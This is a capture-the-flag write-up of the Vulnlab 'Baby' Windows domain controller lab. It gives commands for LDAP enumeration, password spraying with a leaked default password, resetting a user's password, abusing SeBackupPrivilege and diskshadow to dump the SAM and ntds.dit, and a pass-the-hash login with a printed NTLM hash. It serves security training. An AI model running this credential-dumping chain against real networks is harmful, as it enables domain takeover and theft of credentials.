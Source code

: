 ```yaml
---
layout: writeup
category: Vulnlab
chall_description: https://wiki.vulnlab.com/guidance/easy/baby
points: 
solves: 
tags: windows
date: 2024-09-05
comments: true
---
```

# Baby

This is my write-up for the Baby machine from Vulnlab.

# Enumeration

We started executing a full port scan on the host.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ sudo nmap -v -sS -Pn -p- 10.10.98.130 --min-rate=300 --max-rate=500
```

![Untitled](baby/Untitled.png)

Now, we execute a port scan only on the open ports that we have found before.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ sudo nmap -vv -sV -sC -Pn -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5357,5985,9389 -oA nmap/baby 10.10.98.130
```

![Untitled](baby/Untitled%201.png)

![Untitled](baby/Untitled%202.png)

We found the machine name, the domain, and the domain controller name, so we write it into our local hosts file.

![Untitled](baby/Untitled%203.png)

Now, we execute the `netexec` tool to enumerate the SMB service. We could verify that we can log into the SMB as anonymous.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl --shares
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl -u "" -p "" --shares
```

![Untitled](baby/Untitled%204.png)

But we couldn’t list any shares anonymously. So we try enumerating users with `kerbrute`, also without success. Finally, we enumerate the LDAP service using the `ldapsearch` tool. We could enumerate the accounts that were created on the host, and the default password when a new user is created.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ ldapsearch -H ldap://10.10.98.130 -x -b "DC=baby,DC=vl"
```

![Dev Users](baby/Untitled%205.png)

Dev Users

![IT Users](baby/Untitled%206.png)

IT Users

The Teresa.Bell user has a description field saying “Set the initial password to BabyStart123!”.

![Untitled](baby/Untitled%207.png)

We save those all users found on a list of users, after filtering to generate a clean output with only the correct usernames.

# Exploitation

First, we check if the `Teresa.Bell` has the initial password like in her description field, but we were not successful. So we execute the password spraying technique to verify if any other user has the initial password set.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl -u users.txt -p 'BabyStart123!' --continue-on-success
```

![Untitled](baby/Untitled%208.png)

We could verify the `Caroline.Robinson` user did not change her password. Using the `smbpasswd` tool, we can change the initial password and redefine to one of our choice.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─[☢] $ smbpasswd -r baby.vl -U caroline.robinson
```

![Untitled](baby/Untitled%209.png)

Now, we check if the password really has been changed.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl -u caroline.robinson -p 'hacker@123'
```

![Untitled](baby/Untitled%2010.png)

We were able to change the `caroline.robinson`’s password. Now we can log into WinRM service as this user.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ evil-winrm -i 10.10.98.130 -u caroline.robinson -p 'hacker@123'
```

![Untitled](baby/Untitled%2011.png)

## Privilege Escalation

Checking the privileges for `caroline.robinson` account, we verify she has the `SeBackupPrivilege` enabled.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> whoami /priv
```

![Untitled](baby/Untitled%2012.png)

With this privilege, we can save the SAM database and de SYSTEM file to retrieve the NTLM hashes for the users.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> reg save hklm\sam sam
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> reg save hklm\system system
```

![Untitled](baby/Untitled%2013.png)

Now we download these files to our local machine.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> download sam
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> download system
```

![Untitled](baby/Untitled%2014.png)

We were able to retrieve the NTLM hashes for the users locally using the secretsdump impacket tool.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ impacket-secretsdump -sam sam -system system LOCAL
```

![Untitled](baby/Untitled%2015.png)

We could not log into WinRM using the Administrator’s hash retrieved before, because this hash is for the local Administrator user, not the Administrator DC user. So we have to retrieve the administrator DC user that is saved in the ntds.dit file. First, we try to create a ***shadow copy*** of the `C:` drive using the `vssadmin` tool, but we do not have permissions to execute it. We tried some other techniques without success.

Searching on the Internet, we could found a technique to retrieve the ntds.dit file through diskshadow:

[Dumping Domain Controller Hashes Locally and Remotely | Red Team Notes](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration)

First, we create a diskshadow script called `script.txt`  with the content and upload it to the host:

```
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

```bash
# uploading the file
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> upload /home/th3g3ntl3m4n/vulnlab/baby/www/script.txt
```

Now, we execute the diskshadow tool to execute our script.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> diskshadow /s script.txt
```

![Untitled](baby/Untitled%2016.png)

Now we copied the `ntds.dit` file from the new drive, (`E:`), created above.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> robocopy /b E:\Windows\ntds . ntds.dit
```

![Untitled](baby/Untitled%2017.png)

Finally, we download the `ntds.dit` file to our local machine and execute the secretsdump tool to retrieve the Administrator’s DC hash.

![Untitled](baby/Untitled%2018.png)

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ impacket-secretsdump -sam sam -system system -ntds ntds.dit LOCAL
```

![Untitled](baby/Untitled%2019.png)

We now just log into the WinRM service as Administrator using the ***Pass-The-Hash (PTH)*** technique.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ evil-winrm -i 10.10.98.130 -u Administrator -H ee4457ae59f1e3fbd764e33d9cef123d
```

![Untitled](baby/Untitled%2020.png)